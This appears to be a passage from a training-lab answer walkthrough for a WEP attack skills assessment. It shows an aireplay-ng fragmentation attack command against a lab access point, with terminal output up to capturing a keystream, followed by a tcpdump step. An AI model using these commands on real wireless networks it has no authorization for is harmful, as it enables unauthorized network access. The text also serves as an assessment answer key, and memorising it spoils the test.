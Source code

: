# Wired Equivalent Privacy Attacks - Skills Assessment

## Question 2

### "What is the WEP KEY for this network? (Format: XX:XX:XX:XX:XX)"

Students will open a new terminal and use `aireplay-ng` to perform a fragmentation attack targeting the MAC addresses found in the `BSSID` and `STATION` columns in the `airodump-ng` output, respectively. Once a packet is found, students will use that packet. Note the MAC addresses may change upon target spawn or reset:

Code: shell

```shell
sudo aireplay-ng -5 -b B2:A6:3D:EB:23:A3 -h 86:32:38:C0:A9:89 wlan0mon
y
```

```
wifi@WiFiIntro:~$ sudo aireplay-ng -5 -b B2:A6:3D:EB:23:A3 -h 86:32:38:C0:A9:89 wlan0mon

The interface MAC (02:00:00:00:01:00) doesn't match the specified MAC (-h).
	ifconfig wlan0mon hw ether 86:32:38:C0:A9:89
12:24:49  Waiting for beacon frame (BSSID: B2:A6:3D:EB:23:A3) on channel 1
12:24:49  Waiting for a data packet...
Read 258 packets...

        Size: 40, FromDS: 0, ToDS: 1 (WEP)

              BSSID  =  B2:A6:3D:EB:23:A3
          Dest. MAC  =  B2:A6:3D:EB:23:A3
         Source MAC  =  86:32:38:C0:A9:89

        0x0000:  0841 3a01 b2a6 3deb 23a3 8632 38c0 a989  .A:...=.#..28...
        0x0010:  b2a6 3deb 23a3 500d 9369 bc00 d78a c6e5  ..=.#.P..i......
        0x0020:  7e30 74e3 88e9 3a1f                      ~0t...:.

Use this packet ? y

Saving chosen packet in replay_src-1127-122516.cap
12:25:19  Data packet found!
12:25:19  Sending fragmented packet
12:25:19  Got RELAYED packet!!
12:25:19  Trying to get 384 bytes of a keystream
12:25:19  Got RELAYED packet!!
12:25:19  Trying to get 1500 bytes of a keystream
12:25:19  Got RELAYED packet!!
Saving keystream in fragment-1127-122519.xor
```

Next, students will use `tcpdump` to identify the source and IP destination addresses using the packet capture saved with a unique name from `aireplay-ng`. Note that the IP addresses may not be obtained due to the nature of the attack.
